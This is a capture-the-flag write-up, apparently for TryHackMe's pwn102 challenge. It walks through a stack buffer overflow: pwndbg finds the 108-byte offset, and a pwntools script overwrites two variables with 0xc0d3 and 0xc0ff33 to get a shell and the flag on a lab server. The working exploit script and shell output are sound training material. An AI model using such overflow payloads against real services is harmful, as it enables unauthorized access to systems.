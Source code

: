 Let's look at the values that overflowed and overwrote the `$rbp - 4` register to get the offset

```shell
pwndbg> x/s $rbp-4
0x7fffffffe65c:	"aaaaoaaaaaaapaaaaaaaqaaaaaaaraaaaaaasaaaaaaataaaaaaauaaaaaaavaaaaaaawaaaaaaaxaaaaaaayaaaaaaa"
pwndbg> cyclic -l aaaaoaaa
Finding cyclic pattern of 8 bytes: b'aaaaoaaa' (hex: 0x616161616f616161)
Found at offset 108
```

We need to overwrite `$rbp - 4` with `0xc0ff33` and `$rbp - 8` with `0xc0d3`. We need also to know the offsets of both registers. If the offset of `$rbp-4` is `108` the offset of `$rbp-8` will be `104`

```shell
$rbp-4 = 108
$rbp-8 = 104
```

Let's create a python script to overwrite those variables and get a shell

```python
import sys
from pwn import *
from struct import *

exe = './pwn102.pwn102'
elf = context.binary = ELF(exe, checksec=False)

io = remote("10.10.31.35", 9002)

rbp_8 = pack("<I", 0xc0d3)
rbp_4 = pack("<I", 0xc0ff33)

payload = flat(
    asm('nop') * 104,
    rbp_8,
    rbp_4
)

write('payload', payload)
io.sendlineafter(b'?', payload)
io.interactive()
```

Let's run the code using the remote server and the provided port to get a shell and the flag

```shell
pl4int3xt@archlinux ~/D/p/pwn102> python3 pwn102.py 
[+] Opening connection to 10.10.31.35 on port 9002: Done
[*] Switching to interactive mode
Yes, I need c0ff33 to c0d3
$ ls
flag.txt
pwn102
pwn102.c
$ cat flag.txt
THM{REDACTED..}
$
```
